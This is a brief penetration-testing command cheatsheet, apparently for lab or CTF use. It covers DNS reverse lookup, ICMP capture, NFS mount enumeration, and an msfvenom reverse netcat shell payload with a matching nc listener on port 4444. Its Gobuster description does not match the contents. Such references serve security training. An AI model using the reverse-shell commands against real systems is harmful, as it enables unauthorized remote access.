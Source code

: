 ```yaml
---
title: Cli Commands Collation
description: Gobuster penetration tests cheatsheet - practical example commands for running Gobuster and getting the most of this powerful tool.
template: comments.html
tags: [pt, penetration-testing, cli, commands, collation]
---
```


# Cli Commands Collation

## Find PTR Owner - Reversal Look Up

```bash
dig 0.168.192.in-addr.arpa. NS
```

## Listent for Ping/icmp on interface

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

## Reverse Netcat Shell

Payload R(row)

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.11.19.49 lport=4444 R
```

listener:

```bash
nc -lvp 4444
```

## NFS Show Mount

```bash
showmount -e 10.10.87.232
```
